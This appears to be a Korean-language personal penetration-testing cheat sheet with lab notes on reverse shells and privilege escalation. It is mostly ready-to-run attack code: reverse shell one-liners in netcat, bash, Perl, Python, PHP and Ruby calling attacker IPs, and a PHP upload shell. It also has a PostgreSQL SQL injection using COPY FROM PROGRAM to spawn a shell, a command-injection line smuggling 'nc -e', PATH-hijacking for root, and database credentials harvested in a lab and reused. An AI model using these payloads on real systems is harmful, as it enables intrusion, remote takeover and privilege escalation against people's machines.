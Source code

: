 reverse shell
#
`listener`
```
rlwrap nc -nvlp <port>
```
- l: 연결을 듣는다
- v: 상세수준을 설정
- n: dns를 통해 호스트 이름을 확인하지 않는다.
- p: 사용할 포트를 지정한다.

#
`Netcat`
```
nc -e /bin/sh 10.0.0.1 1234
```
잘못된 버전을 사용할 경우 다음과 같이 리버스 셸을 다시 사용할 수 있다

#
`Bash`
```
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```
#
`Perl`
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
#
`python`
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
#
`php`
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
#
`ruby`
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
#
locate
```
/usr/share/webshells/php/php-reverse-shell.php
```
#
`셸 안정화`
```
script /dev/null -c bash
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

```
/bin/sh -i
```
`대화식 셸`
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

[nmap](https://gtfobins.github.io/gtfobins/nmap/)
```
nmap --interactive
!sh
```
![image](https://user-images.githubusercontent.com/61821641/152297137-ab84a146-d2ba-462d-bf85-4b33ef5fd69b.png)
#
`절대 경로 대신 상대 경로를 사용하여 cat binary를 호출하는 것을 볼 수 있다. 악의적인 cat을 만들고 현재 작업 디렉토리를 포함하도록 경로를 수정하면 잘못된 구성을 악용할 수 있으며 권한을 루트로 높일 수 있다.`
```
export PATH=/tmp:$PATH
cd /tmp
echo '/bin/sh' > cat
chmod +x cat
```

#
`sql injection`
```
' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --
```
이 SQL 문을 사용하면 이 웹 사이트의 백엔드 데이터베이스가 Postgre임을 알 수 있습니다.SQL 버전 11.5. "Google University"에서 어떤 종류의 reverse shell을 얻을 수 있는지 알아보겠습니다. 우리는 Postgre에서 발견된 exploit에 대해 알게 되었다.버전 11.5의 경우 SQL 버전 9.3이 아직 살아 있습니다. * 메타스플로이트를 사용

`![image](https://user-images.githubusercontent.com/61821641/150574663-24469d46-8cb2-4bc2-89ed-fdd4d3af03c9.png)


`이어서 reverse shell`

```
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/<my ip>/1234 0>&1'''; -- 
```

![image](https://user-images.githubusercontent.com/61821641/150575592-27443005-8908-470b-83ec-0d977f32a386.png)

#
```
echo "AB; nc -e /bin/sh 10.10.14.17 1234" | nc 127.0.0.1 6697
```
![image](https://user-images.githubusercontent.com/61821641/152299600-f1a2ddfa-3c9e-433c-856e-2fbc005e08d6.png)
#

`1. php 업로드`
```
<?php
  exec("/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.217/1234 0<&1'")
?>
```
`2. 셸 안정화`
```
script /dev/null -c bash
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```
`3. 탐색(home, var 하위 디렉토리)`
```
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
`4. 얻은 정보로 권한 상승?`
```
su robert
M3g4C0rpUs3r!
``` 
```
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
```
find / -group bugtracker 2>/dev/null
```
`bugtracker`그룹에 접근
```
find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```
id를 몰라서 접근이 안된다.

![image](https://user-images.githubusercontent.com/61821641/149992123-52fab6e7-b05b-41ea-b696-72f866995ed3.png)

`절대 경로 대신 상대 경로를 사용하여 cat binary를 호출하는 것을 볼 수 있다. 악의적인 cat을 만들고 현재 작업 디렉토리를 포함하도록 경로를 수정하면 잘못된 구성을 악용할 수 있으며 권한을 루트로 높일 수 있다.`
```
export PATH=/tmp:$PATH
cd /tmp
echo '/bin/sh' > cat
chmod +x cat
```
#
1. 포트 1234(또는 수신하려는 포트)를 통해 대상 시스템의 IPv4 주소에서 공격 시스템의 IPv4 주소로의 모든 TCP 인바운드 연결을 허용
```
sudo ufw allow from <target ip> proto tcp to any port 1234
nc -lvnp 1234
```
2. 
![image](https://user-images.githubusercontent.com/61821641/150576818-3437aa8c-226b-412d-8402-1d33fb6a8cdf.png)
```
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/<my ip>/1234 0>&1'''; -- 
```
3. 상호작용적인 shell 만들기
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
![image](https://user-images.githubusercontent.com/61821641/150577289-9a5f4915-a62c-4851-bbdd-c6663af8688a.png)

#
reference

- [reverse shell php](https://github.com/BlackArch/webshells)
- [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [reverse shell payload](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [nmap](https://gtfobins.github.io/gtfobins/nmap/)